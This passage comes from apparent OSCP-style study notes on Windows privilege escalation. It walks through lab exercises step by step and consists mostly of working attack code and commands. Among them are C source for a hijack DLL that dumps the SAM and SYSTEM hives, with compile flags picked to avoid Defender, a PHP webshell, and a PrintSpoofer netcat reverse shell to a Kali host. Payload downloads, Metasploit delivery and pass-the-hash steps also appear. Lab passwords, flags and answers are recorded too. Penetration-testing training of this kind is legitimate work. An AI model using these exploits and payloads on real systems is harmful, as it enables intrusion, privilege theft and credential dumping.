**Run As User:** `daveadmin`
**Fires:** every 1 minute

**Task enumeration:**
```cmd
schtasks /query /fo LIST /v /tn "\Microsoft\CacheCleanup"
REM Key fields: Task To Run, Run As User, Repeat: Every 0 Hour(s), 1 Minute(s)
```

**Write access:** Dave can't write to steve's profile folder (`Access is denied` even on icacls). Steve owns the binary, so we need to authenticate as steve. Steve's credentials (`securityIsNotAnOption++++++`) were found in 17.1.3, and steve is in Remote Management Users.

**Payload delivery via evil-winrm (WinRM channel, no HTTP server needed):**
```bash
evil-winrm -i 192.168.137.220 -u steve -p 'securityIsNotAnOption++++++'
```

```powershell
# Inside evil-winrm session as steve:
upload /home/kali/Current.exe "C:\Users\steve\Pictures\BackendCacheCleanup.exe"
```

The `upload` command transfers over the WinRM session directly -- no HTTP server or certutil required. Useful when the target can reach the WinRM port but not your HTTP listener.

**Wait and catch:**

Within 60 seconds the task fires, executes `BackendCacheCleanup.exe` (our reverse shell) as daveadmin, and the shell lands on the Kali nc listener.

```
whoami → clientwk220\daveadmin
```

> 🔍 **Worth remembering generally:** evil-winrm's built-in `upload` / `download` commands transfer files over the WinRM (port 5985) session itself. Use this when the target can't reach your HTTP server -- if WinRM works, file transfer works too.

> 🔁 **Similar to:** [[17. Windows Privilege Escalation#17.2.1. Service Binary Hijacking|17.2.1]] -- binary replacement is identical. The only difference: the trigger is a time-based task instead of a service start/restart.

> 📸 Screenshot: `schtasks /query` showing CacheCleanup Run As User: daveadmin, Repeat: 1 minute
> 📸 Screenshot: evil-winrm upload success message
> 📸 Screenshot: nc listener receiving shell + whoami showing clientwk220\daveadmin

**Flag (daveadmin's desktop):** `OS{79d9c797a756c9a0dca041d092cc7ea7}`

---

#### Lab — VM #2: CLIENTWK221 (RDP as moss:work6potence6PLASMA6flint7) ✅

**Target task:** `\Microsoft\Voice Activation`
**Binary:** `C:\Users\moss\Searches\VoiceActivation.exe`
**Run As User:** `roy`
**Fires:** every 1 minute (One Time Only, Minute repeat)

**Task enumeration:**

The standard `schtasks /query /fo LIST /v | findstr` approach gets noisy. Use PowerShell to cleanly identify tasks whose binary is in a user-writable path:

```powershell
Get-ScheduledTask | ForEach-Object {
    $task = $_
    $actions = $task.Actions | Where-Object { $_.Execute -like "*VoiceActivation*" }
    if ($actions) {
        [PSCustomObject]@{
            TaskName = $task.TaskName
            RunAs    = $task.Principal.UserId
            Execute  = ($task.Actions | Select-Object -First 1).Execute
        }
    }
} | Format-List
# → TaskName: Voice Activation | RunAs: roy | Execute: C:\Users\moss\Searches\VoiceActivation.exe
```

**Write access:** moss owns `C:\Users\moss\Searches\`, full control by default over your own profile. No extra icacls check needed.

**Payload delivery (from RDP session as moss):**

```powershell
iwr -uri http://192.168.45.223/Current.exe -Outfile "C:\Users\moss\Searches\VoiceActivation.exe"
```

**Wait and catch:**

Within 60 seconds the task fires, executes VoiceActivation.exe as roy, and the shell lands on the nc listener.

```
whoami → clientwk221\roy
```

> 🔍 **Worth remembering generally:** when the task runs as a non-SYSTEM, non-admin user (roy here), you escalate to that account specifically, useful for accessing their files, credentials, or lateral movement, but not automatically SYSTEM. Check `sc qc` / `schtasks` "Run As User" early so you know the payoff before investing time.

> 🔁 **Similar to:** [[17. Windows Privilege Escalation#17.3.1. Scheduled Tasks|VM#1]], identical attack, just with a different task name and user. The PowerShell `Get-ScheduledTask` enumeration approach is cleaner than `schtasks /query /fo LIST /v | findstr` for this kind of discovery.

> 📸 Screenshot: PowerShell Get-ScheduledTask output showing Voice Activation task with roy as run-as user
> 📸 Screenshot: nc listener receiving shell as clientwk221\roy

**Flag (roy's desktop):** `OS{2d74eb8c1a21918879d7e9a1b7db0cc0}`

#### Tags: #ScheduledTasks #schtasks #BinaryReplacement #PrivilegeEscalation #Module17

---

### 17.3.2. Using Exploits

Three categories of exploits for Windows privilege escalation:

#### 1. Application Vulnerabilities

Installed apps running with admin/SYSTEM privileges may have known CVEs. If you can trigger code execution through the vulnerability, you inherit the app's privileges. Same research process as [[13. Locating Public Exploits|Locating Public Exploits]]: identify version, search ExploitDB/GitHub/NVD.

#### 2. Windows Kernel Exploits

Unpatched kernel vulnerabilities can let a user-mode process execute code in the kernel, achieving SYSTEM. Research process:
1. `systeminfo` → get OS build number
2. `Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }` → list installed security updates
3. Check which KB patches the relevant CVE -- if the patch KB isn't in the list, the system is likely vulnerable
4. Search GitHub/ExploitDB for a compiled PoC

Common examples in OSCP-era labs:
- **CVE-2023-29360** -- Microsoft Streaming Service Proxy EoP, patched KB5027215; spawns interactive cmd.exe (needs RDP or a command argument)
- **CVE-2023-28252** -- Windows CLFS driver use-after-free (April 2023 Patch Tuesday); swaps running process token for SYSTEM token in-place; PoC by bkstephen takes `"cmd.exe /c <command>"` argument and writes output to a file; needs write access to `C:\Users\Public\` for working CLFS log files (can fail over WinRM if path ACLs differ)

Example: **CVE-2023-29360** (Microsoft Streaming Service Proxy elevation of privilege, patched in KB5027215):
```powershell
# Verify the patch is absent
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
# If KB5027215 is not listed, likely vulnerable

# Run the exploit (pre-compiled PoC)
.\CVE-2023-29360.exe
whoami  # → nt authority\system
```

> ⚠️ **Caution:** kernel exploits can crash the system. In real assessments: verify the patch level carefully before attempting, use only when source code is available to audit the binary, test on a clone if possible, and confirm rules of engagement permit it. In labs: use them freely.

#### 3. Abusing Windows Privileges (SeImpersonatePrivilege)

`SeImpersonatePrivilege` lets a process impersonate another user after capturing their authentication. Windows assigns it by default to:
- Local Administrators group
- LOCAL SERVICE, NETWORK SERVICE, SERVICE accounts
- IIS application pools (IIS = Internet Information Services, Microsoft's built-in web server; an "application pool" is an isolated worker process that hosts a web app, and it runs under a virtual account called ApplicationPoolIdentity, which by default has SeImpersonatePrivilege; this is why getting a web shell on an IIS server so often leads directly to a Potato-family escalation)

**The attack flow:**



**Named pipes background:** a named pipe is an OS-level communication channel between processes, similar in concept to a network socket but local to the machine, identified by a filesystem-style name like `\\.\pipe\something`; a named pipe server creates one and listens; any process that connects authenticates as itself. With SeImpersonatePrivilege, the server can then call `ImpersonateNamedPipeClient()` to temporarily adopt that client's security context. Potato-family tools automate the coercion of NT AUTHORITY\SYSTEM into connecting to the controlled pipe.

```bash
# Download SigmaPotato from Kali
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
python3 -m http.server 80
```

```powershell
# Check for SeImpersonatePrivilege
whoami /priv
# Look for: SeImpersonatePrivilege | Impersonate a client after authentication | Enabled

# Download SigmaPotato
iwr -uri http://<kali-ip>/SigmaPotato.exe -OutFile SigmaPotato.exe

# Execute commands as SYSTEM
.\SigmaPotato "net user dave4 lab /add"
.\SigmaPotato "net localgroup Administrators dave4 /add"

# Verify
net user
net localgroup Administrators
```

> 🔍 **Worth remembering generally:** Potato family variants to know: **RottenPotato** (original), **SweetPotato**, **JuicyPotato** (needs CLSID, wide Windows 10 support), **GodPotato** (Windows 2012-2022, most current), **SigmaPotato** (modern variant, no CLSID needed). In OSCP labs, JuicyPotato and SigmaPotato appear most. Check which Windows version you're on -- not all work on all versions.

> 🔁 **Similar to:** the JuicyPotato privesc in [[Arctic]] and [[Active]] box writeups -- same underlying privilege, different tool. The SeImpersonatePrivilege → Potato chain is the single most common Windows privesc path after getting a web shell on an IIS server.

> 🎬 **[ippsec.rocks: "SeImpersonatePrivilege"](https://ippsec.rocks/?#SeImpersonatePrivilege)** -- search "juicypotato" or "potato" for boxes where this is the primary escalation path; HTB Jeeves and HTB Arctic are canonical examples

---

#### Lab — VM #1: CLIENTWK220 (RDP as steve:securityIsNotAnOption++++++) ✅

**Exploit:** `CVE-2023-29360.exe`, pre-staged on steve's Desktop by the lab.

**Access:** Steve is in Remote Management Users (evil-winrm works) but the exploit spawns an interactive cmd.exe, that needs a proper interactive RDP session to be usable. evil-winrm runs the exploit fine but the spawned SYSTEM cmd.exe has no interactive stdin in that context and exits immediately. RDP gives a real desktop where the SYSTEM cmd.exe pops as a usable window.

```powershell
# In RDP session as steve:
cd C:\Users\steve\Desktop
.\CVE-2023-29360.exe
# New cmd.exe window opens as nt authority\system
```

**What the exploit does:** Maps MDL structures for the Microsoft Streaming Service Proxy driver, locates the SYSTEM token in kernel memory, swaps the unprivileged process token for the SYSTEM token, then spawns `cmd.exe` inheriting that token. Requires KB5027215 to be absent.

**Shell:**
```
C:\Users\steve\Desktop> whoami → nt authority\system
```

> 🔍 **Worth remembering generally:** kernel exploits that spawn a new interactive process (cmd.exe, powershell.exe) need an interactive session (RDP, local logon) to give you a usable shell. Running them from evil-winrm / nc bind shells / non-interactive contexts will run the exploit and elevate, but the spawned child process has no way to communicate back. Two workarounds: (1) run from RDP; (2) modify the exploit to run a specific command (add user, write flag to file, start a reverse shell) instead of cmd.exe.

> 📸 Screenshot: PowerShell on steve's desktop showing exploit output and SYSTEM token references
> 📸 Screenshot: SYSTEM cmd.exe window from the spawned child process + whoami output

**Flag (daveadmin's desktop):** `OS{3bcb31f59eb29f7154a96cafe46603dd}`

---

#### Lab — VM #2: CLIENTWK220 (RDP as dave:lab + PHP webshell) ✅

**Intended path:** SeImpersonatePrivilege → SigmaPotato → SYSTEM
**Actual outcome:** Apache already runs as `NT AUTHORITY\SYSTEM` in this XAMPP install, webshell gives SYSTEM directly.

**Attack chain:**

```
1. netstat -ano → port 80 open (PID 3000, Apache/XAMPP)
2. icacls C:\xampp\htdocs → NT AUTHORITY\Authenticated Users:(I)(M)  ← dave can write
3. echo ^<?php system($_GET['cmd']); ?^> > C:\xampp\htdocs\shell.php
4. curl "http://192.168.137.220/shell.php?cmd=whoami" → nt authority\system
5. curl "http://192.168.137.220/shell.php?cmd=type+C:\Users\daveadmin\Desktop\flag.txt" → flag
```

**Why SYSTEM without SigmaPotato:** XAMPP defaults to running Apache as LocalSystem unless reconfigured. When Apache IS LocalSystem, webshell code execution is already SYSTEM. SeImpersonatePrivilege / Potato tools are only needed when the service runs as a lower-priv account (NETWORK SERVICE, IIS APPPOOL\DefaultAppPool, etc.) that has SeImpersonatePrivilege but not direct SYSTEM rights.

> 🔍 **Worth remembering generally:** always `whoami` immediately after landing a webshell. If Apache/IIS runs as SYSTEM, stop there, escalation is already done. If it runs as NETWORK SERVICE or an app pool identity, THEN reach for SigmaPotato/GodPotato. The `whoami /priv` output will show `SeImpersonatePrivilege` in the latter case.

> 🔍 **Worth remembering generally:** `NT AUTHORITY\Authenticated Users` with Modify (`M`) covers any logged-in user, domain or local. If a web root has this ACL, any authenticated user can drop files into it directly without needing admin rights.

> 📸 Screenshot: `icacls C:\xampp\htdocs` showing Authenticated Users Modify
> 📸 Screenshot: curl output showing `nt authority\system` from whoami webshell call
> 📸 Screenshot: curl output with flag

**Flag (daveadmin's desktop):** `OS{01f9ce50c9d1562bf849831e4049f52b}`

---

#### 17.3.2 Capstone: CLIENTWK222 (192.168.137.222)

**Objective:** read `C:\Users\enterpriseadmin\Desktop\flag.txt` starting from the bind shell on port 4444.

**Access provided:**
- `diana` via nc bind shell port 4444 (a scheduled task runs nc as diana every minute)
- `alex` via evil-winrm (password: WelcomeToWinter0121)

---

**Step 1: Connect to both shells**

Kali terminal 1 -- diana's bind shell:
```bash
nc 192.168.137.222 4444
```
Success: `C:\Windows\system32>` as diana. Failure: connection refused (wait 60 seconds for the task to fire, then retry).

Kali terminal 2 -- alex's evil-winrm:
```bash
evil-winrm -i 192.168.137.222 -u alex -p WelcomeToWinter0121
```
Success: `*Evil-WinRM* PS C:\Users\alex\Documents>`. Failure: connection refused or auth error (wrong creds).

---

**Step 2: Enumerate**

From diana's nc shell:
```cmd
whoami /all
tasklist | findstr /i enterprise
```
Key findings: diana is in `BUILTIN\Backup Operators` (SeBackupPrivilege + SeRestorePrivilege). `EnterpriseService.exe` is running.

From alex's evil-winrm:
```powershell
dir C:\Services\
type C:\Services\EnterpriseServiceLog.log
```
Key findings: `BUILTIN\Users` has write access to `C:\Services\`. `EnterpriseServiceOptional.dll` is MISSING. The log says `Couldn't load EnterpriseServiceOptional.dll, only using basic features.` This is a DLL hijacking setup -- the service tries to load that DLL from `C:\Services\` at startup.

---

**Step 3: DLL hijack (plant the payload, blocked on trigger)**

The service loads `EnterpriseServiceOptional.dll` at startup only. We have write access to `C:\Services\`. The catch: we can't restart the service without admin rights (sc.exe is access denied, no FailureActions configured, no visible restart task). Plant the DLL anyway so it fires if a restart ever happens, then pivot to the kernel exploit.

On Kali, write the C payload (`/home/kali/backup_payload.c`). The key pieces: enable SeBackupPrivilege on the current token, open the flag file with `FILE_FLAG_BACKUP_SEMANTICS` (bypasses ACLs when backup privilege is active), write it to `C:\Services\result.txt`. Also put the payload in `DllMainCRTStartup` for normal DLL loading and in an exported `OptionalFunction` for cases where the service uses `LOAD_LIBRARY_AS_DATAFILE`:

```c
#include <windows.h>

void DoPayload(void) {
    HANDLE hToken;
    if (!OpenProcessToken(GetCurrentProcess(),
                          TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
        return;
    TOKEN_PRIVILEGES tp; LUID luid;
    if (LookupPrivilegeValueA(NULL, "SeBackupPrivilege", &luid)) {
        tp.PrivilegeCount = 1; tp.Privileges[0].Luid = luid;
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges(hToken, FALSE, &tp, 0, NULL, NULL);
    }
    if (LookupPrivilegeValueA(NULL, "SeRestorePrivilege", &luid)) {
        tp.PrivilegeCount = 1; tp.Privileges[0].Luid = luid;
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges(hToken, FALSE, &tp, 0, NULL, NULL);
    }
    CloseHandle(hToken);

    HANDLE hIn = CreateFileW(L"C:\\Users\\enterpriseadmin\\Desktop\\flag.txt",
        GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL, OPEN_EXISTING, FILE_FLAG_BACKUP_SEMANTICS, NULL);
    if (hIn != INVALID_HANDLE_VALUE) {
        char buf[4096]; DWORD got = 0;
        ReadFile(hIn, buf, sizeof(buf) - 1, &got, NULL);
        CloseHandle(hIn);
        HANDLE hOut = CreateFileW(L"C:\\Services\\result.txt",
            GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hOut != INVALID_HANDLE_VALUE) {
            DWORD wrote;
            WriteFile(hOut, buf, got, &wrote, NULL);
            CloseHandle(hOut);
        }
        return;
    }
    // fallback: dump SAM/SYSTEM hives
    HKEY hSam = NULL;
    RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SAM", REG_OPTION_BACKUP_RESTORE, KEY_READ, &hSam);
    if (hSam) { RegSaveKeyExW(hSam, L"C:\\Users\\Public\\Documents\\cfg1.db", NULL, REG_NO_COMPRESSION); RegCloseKey(hSam); }
    HKEY hSys = NULL;
    RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SYSTEM", REG_OPTION_BACKUP_RESTORE, KEY_READ, &hSys);
    if (hSys) { RegSaveKeyExW(hSys, L"C:\\Users\\Public\\Documents\\cfg2.db", NULL, REG_NO_COMPRESSION); RegCloseKey(hSys); }
}

__declspec(dllexport) void OptionalFunction(void) { DoPayload(); }
BOOL WINAPI DllMainCRTStartup(HINSTANCE h, DWORD reason, LPVOID r) {
    if (reason == DLL_PROCESS_ATTACH) DoPayload();
    return TRUE;
}
```

Cross-compile on Kali. The `-nostdlib -nostartfiles` flags strip CRT startup code that Defender flags; the stack probe flags prevent a linker error from the missing `___chkstk_ms` symbol:
```bash
x86_64-w64-mingw32-gcc -shared -nostdlib -nostartfiles \
  -fno-stack-check -mno-stack-arg-probe \
  -Wl,--entry,DllMainCRTStartup \
  -o /home/kali/EnterpriseServiceOptional.dll \
  /home/kali/backup_payload.c \
  -lkernel32 -ladvapi32
```
Success: ~10915-byte DLL. Failure: `undefined reference to ___chkstk_ms` means you forgot `-fno-stack-check -mno-stack-arg-probe`.

Upload from evil-winrm (navigate to C:\Services\ first, or use just the filename so it lands in the current dir):
```
cd C:\Services\
upload /home/kali/EnterpriseServiceOptional.dll EnterpriseServiceOptional.dll
dir C:\Services\
```
Success: DLL shows at ~10915 bytes, not quarantined (nostdlib DLL has no suspicious import patterns for Defender's static scan).

Service never restarts. DLL is planted and ready, but we need another path to trigger it.

> 🔧 **Technique:** DLL hijacking only fires when the service restarts. Methods to trigger: sc.exe (needs SERVICE_STOP/START rights), a scheduled restart task (needs task write access or visibility), crashing with FailureActions (needs those configured), or rebooting (Offsec VMs wipe state on reboot -- both Stop AND Revert reset to clean snapshot (OffSec VMs wipe on either action)). If none work, pivot and pursue another path. Plant the DLL anyway so it's ready if a restart happens.

---

**Step 4: Kernel exploit -- CVE-2023-28252 (CLFS use-after-free)**

CVE-2023-28252 is a UAF in the Windows CLFS driver. The bkstephen PoC swaps the running process's token with the SYSTEM token, giving SYSTEM in the current process context. It spawns a child process (or runs a command) with the elevated token.

Create the flag-read batch file from evil-winrm:
```powershell
Set-Content -Path "C:\Services\dump.bat" -Value "@echo off`r`ntype C:\Users\enterpriseadmin\Desktop\flag.txt > C:\Services\result.txt"
```
Success: dump.bat created at 84 bytes.

Upload the exploit:
```
upload /tmp/clfs2/x64/Release/clfs_eop.exe clfs_eop.exe
dir C:\Services\
```
Success: clfs_eop.exe appears at 351232 bytes, not quarantined.

First attempt from alex's evil-winrm:
```powershell
.\clfs_eop.exe "cmd.exe /c C:\Services\dump.bat"
```
Result: `Could not create LOGfile1, error: 0x5`. The exploit needs to create CLFS working files in `C:\Users\Public\` -- alex's WinRM session doesn't have write access there even though the directory is normally world-writable. WinRM can have tighter path ACLs than interactive sessions.

Switch to diana's nc shell and run it from there:
```cmd
C:\Services\clfs_eop.exe "cmd.exe /c C:\Services\dump.bat"
```
Success output:
```
SYSTEM TOKEN CAPTURED
ACTUAL USER=SYSTEM
WE ARE SYSTEM
```

> 📸 Screenshot: clfs_eop.exe output in diana's nc shell showing SYSTEM TOKEN CAPTURED / ACTUAL USER=SYSTEM

Read the flag:
```cmd
type C:\Services\result.txt
```

> 📸 Screenshot: type output showing OS{} flag value in result.txt

**Flag:** `OS{55a5eb25425fe0875c37038779dc8077}`

```
whoami (via SYSTEM token swap, not shown directly -- confirmed by exploit output)
type C:\Services\result.txt
OS{55a5eb25425fe0875c37038779dc8077}
```

---

**Full attack chain:**



> 🎬 **[ippsec.rocks: "CVE-2023-28252"](https://ippsec.rocks/?#CVE-2023-28252)** -- search the CLFS exploit; also try "clfs" for boxes where this kernel UAF was the privesc path
> 🎬 **[ippsec.rocks: "dll hijacking"](https://ippsec.rocks/?#dll%20hijacking)** -- DLL hijacking walkthroughs; "missing dll" for the exact pattern used here (service loads non-existent DLL from a user-writable directory)

> 🔗 **bkstephen CVE-2023-28252 PoC (GitHub):** [github.com/bkstephen/CVE-2023-28252](https://github.com/bkstephen/CVE-2023-28252) -- the specific PoC used; takes one optional argument (the command to run as SYSTEM); hardcodes `C:\Users\Public\` as working directory for CLFS log file creation
> 🔗 **CVE-2023-28252 NVD entry:** [nvd.nist.gov/vuln/detail/CVE-2023-28252](https://nvd.nist.gov/vuln/detail/CVE-2023-28252) -- patched in April 2023 Patch Tuesday (KB5025221 for Win10 21H2, KB5025224 for Win11 22H2)
> 🔗 **HackTricks -- Windows Local Privilege Escalation (GitHub):** [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks) -- see "DLL Hijacking" section for full DLL search order breakdown and detection notes

> 🔍 **Worth remembering generally:** WinRM sessions can have tighter filesystem ACLs than interactive shells (nc bind shells, reverse shells, RDP). When a kernel exploit fails with access denied on what should be a world-writable path, try running it from a different user's bind or reverse shell. In this capstone, the exact same exploit binary succeeded from diana's nc shell and failed from alex's WinRM session because `C:\Users\Public` write access differed between those session types.

> 🔍 **Worth remembering generally:** when multiple access paths exist (here: alex via WinRM and diana via bind shell), always test exploit steps from all available sessions. The WinRM shell is not always the most permissive one.

> 🔁 **Similar to:** [[17. Windows Privilege Escalation#17.3.2. Using Exploits|CVE-2023-29360 workflow in VM#1]] -- same class of kernel exploit (pre-compiled PoC, SYSTEM token swap). Same lesson: if the exploit spawns an interactive process without a command argument, it won't show up over WinRM or nc. Always pass `cmd.exe /c <command>` and write output to a file.

#### Tags: #KernelExploit #SeImpersonatePrivilege #SigmaPotato #JuicyPotato #Potato #NamedPipes #CVE202329360 #CVE202328252 #CLFS #DLLHijack #SeBackupPrivilege #BackupOperators #MinGW #Capstone #Module17

---

#### 17.3.2.1. Named Pipe ACL Check (accesschk)

Before using a named pipe for escalation, verify your user has the necessary access rights:

```cmd
:: Check pipe ACLs with AccessChk
cd C:\Tools\AccessChk
accesschk.exe -accepteula -w \pipe\SQLLocal\SQLEXPRESS01 -v
:: Look for: WRITE_DAC or FILE_ALL_ACCESS on a low-privilege account

:: Identify the service listening on a port
netstat -ano | findstr :21
:: Note the PID, then identify it:
tasklist | findstr /c:"<PID>"
```

> 🔍 **Worth remembering generally:** `WRITE_DAC` on a named pipe means you can modify its ACL -- from there you can add yourself as allowed to impersonate connections. `FILE_ALL_ACCESS` is even more permissive.

**Lab Q&A (WPE.3):**

| Q | Answer |
|---|---|
| Service on port 21 | **filezilla server** |
| Account with WRITE_DAC on MSSQL pipe | **NT SERVICE\MSSQL$SQLEXPRESS01** |

#### 17.3.2.2. SeImpersonatePrivilege via MSSQL xp_cmdshell + PrintSpoofer

An alternative to SigmaPotato when you reach the target via MSSQL (rather than a web shell):

```bash
# Step 1: connect to MSSQL with low-priv credentials
mssqlclient.py sql_dev@TARGET_IP -windows-auth
# Password: Str0ng_P@ssw0rd!
```

```sql
-- Step 2: enable xp_cmdshell
SQL> enable_xp_cmdshell

-- Step 3: confirm SeImpersonatePrivilege
SQL> xp_cmdshell whoami /priv
-- Look for: SeImpersonatePrivilege ... Enabled
```

```bash
# Step 4: start nc listener on Kali
nc -nvlp 4444

# Step 5: PrintSpoofer reverse shell via xp_cmdshell
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "C:\tools\nc.exe KALI_IP 4444 -e cmd.exe"
# [+] Found privilege: SeImpersonatePrivilege
# [+] Named pipe listening...
# → nc listener receives a SYSTEM shell
```

> 🔍 **Worth remembering generally:** PrintSpoofer coerces the Spooler service (SYSTEM) to authenticate to a named pipe you control. With SeImpersonatePrivilege, the server reads the SYSTEM token from the pipe. Same root idea as SigmaPotato but different coercion mechanism -- use PrintSpoofer when SigmaPotato fails on older systems.

**Lab Q&A (WPE.4):**

| Q | Answer |
|---|---|
| Flag after SYSTEM shell via PrintSpoofer | **F3ar_th3_p0tato!** |

#### 17.3.2.3. SeBackupPrivilege via PowerShell Module (Alternative to Win32 API)

Complements the existing C-based hive dump approach in 17.3.2. The PowerShell DLL method is easier when you can't compile or run C code:

```powershell
:: Step 1: load the SeBackupPrivilege modules
cd C:\Tools
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll

:: Step 2: enable the privilege (works even when whoami /priv shows Disabled)
Set-SeBackupPrivilege
whoami /priv
:: Now shows: SeBackupPrivilege ... Enabled

:: Step 3: copy a normally-inaccessible file
Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\flag.txt' flag.txt
:: Expected: Copied 30 bytes

cat flag.txt
```

> 🔁 **Similar to:** the Win32 API method in the existing 17.3.2 -- both rely on SeBackupPrivilege. The PowerShell module method is faster for one-off file reads; the compiled C approach is needed when PowerShell is blocked or when you need to dump the whole SAM/SYSTEM hive.

**Lab Q&A (WPE.7):**

| Q | Answer |
|---|---|
| Flag via SeBackupPrivilegeCmdlets | **Car3ful_w1th_gr0up_m3mberSh1p!** |

#### 17.3.2.4. HiveNightmare / CVE-2021-36934 (Passive SAM Read)

Windows 10 builds 1809-21H1 set world-readable ACLs on VSS shadow copies of SAM/SYSTEM/SECURITY. Any user can read the registry hives from the shadow:

```powershell
:: Run the PoC tool (auto-discovers VSS paths and extracts hashes)
cd C:\Tools
.\CVE-2021-36934.exe
:: Output: Administrator:500:aad3b435...:NTLM_HASH:::

:: Manual approach (without PoC tool):
icacls C:\Windows\System32\config\SAM
:: Look for: BUILTIN\Users:(I)(RX) -- readable by everyone
```

After extracting the NTLM hash, PtH:

```bash
# PtH to access files via SMB
smbclient -U administrator '\\TARGET_IP\C$' --pw-nt-hash
# Enter the NTLM hash as the password

smb> get Users\Administrator\Desktop\flag.txt
smb> exit
```

> 🔍 **Worth remembering generally:** HiveNightmare is entirely passive -- no service manipulation, no interaction with other users. It reads VSS paths that Windows accidentally left world-readable. Fast to check: run the PoC, if it outputs hashes, the system is vulnerable.

**CVE quick reference table:**

| CVE | Nickname | Target OS | Method |
|-----|----------|-----------|--------|
| CVE-2023-29360/28252 | CLFS privesc | Win11/Server 2022 | CLFS log parsing token steal |
| CVE-2021-36934 | HiveNightmare/SeriousSAM | Win10 1809-21H1 | VSS SAM readable by all users |
| CVE-2021-1675 | PrintNightmare | All Windows (2021) | Spooler DLL injection = SYSTEM |
| MS16-032 | Secondary Logon | Win7-10 | Thread handle leak = SYSTEM |
| MS10-092 | Task Scheduler XML | Win7/2008 R2 | XML task manipulation |

**Lab Q&A (WPE.14):**

| Q | Answer |
|---|---|
| Flag after HiveNightmare PtH | **D0nt_fall_b3h1nd_0n_Patch1ng!** |

#### 17.3.2.5. Old OS Kernel Exploits (Sherlock + windows-exploit-suggester)

For legacy Windows Server 2008 R2 / Windows 7 SP1 targets:

```powershell
:: Sherlock.ps1 -- enumerate unpatched kernel vulnerabilities
cd C:\Tools
Set-ExecutionPolicy bypass -scope process
Import-Module .\Sherlock.ps1
Find-AllVulns
:: Reports: VulnStatus: Appears Vulnerable for missing patches
```

```bash
# windows-exploit-suggester (for offline systeminfo analysis)
python2 windows-exploit-suggester.py --update
# Generates: YYYY-MM-DD-mssb.xls

python2 windows-exploit-suggester.py --database YYYY-MM-DD-mssb.xls --systeminfo systeminfo.txt
# Output: [E] MS16-032 ... Appears Vulnerable
```

**MS10-092 via MSF (Server 2008 R2, from smb_delivery meterpreter):**

```bash
# Step 1: gain initial access via command injection + smb_delivery
sudo msfconsole -q
use exploit/windows/smb/smb_delivery
set SRVHOST tun0; set LHOST tun0; exploit
# Inject via web app: 127.0.0.1 && rundll32.exe \\KALI_IP\xYBi\test.dll,0

# Step 2: escalate via MS10-092 (Task Scheduler XML)
bg
use exploit/windows/local/ms10_092_schelevator
set SESSION 1; set LHOST tun0; set LPORT 4443; exploit
# SYSTEM meterpreter session opens
```

**MS16-032 via PowerShell (Windows 7 SP1):**

```powershell
cd C:\Tools
Set-ExecutionPolicy bypass -scope process
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
:: [+] Resuming thread..
:: [!] Holy handle leak Batman, we have a SYSTEM shell!!
:: A new CMD window opens as SYSTEM
```

**Lab Q&A (WPE.23-24):**

| Q | Answer |
|---|---|
| Flag (Server 2008 R2 via MS10-092) | **L3gacy_st1ill_pr3valent!** |
| Flag (Win7 SP1 via MS16-032) | **Cm0n_l3ts_upgRade_t0_win10!** |

#### Tags: #KernelExploit #SeImpersonatePrivilege #SigmaPotato #JuicyPotato #Potato #NamedPipes #CVE202329360 #CVE202328252 #CLFS #DLLHijack #SeBackupPrivilege #BackupOperators #MinGW #Capstone #PrintSpoofer #HiveNightmare #CVE202136934 #PrintNightmare #CVE20211675 #MS16032 #MS10092 #Sherlock #windowsExploitSuggester #accesschk #Module17

---

### 17.3.3. Built-in Group Privilege Abuse

Windows built-in groups carry specific privileges that can be abused for escalation. The key is knowing which group provides which privilege and what attack that enables.

| Group / Privilege | Attack Path |
|---|---|
| SeDebugPrivilege | Dump LSASS memory → extract hashes |
| SeTakeOwnershipPrivilege | Take ownership of any file/object |
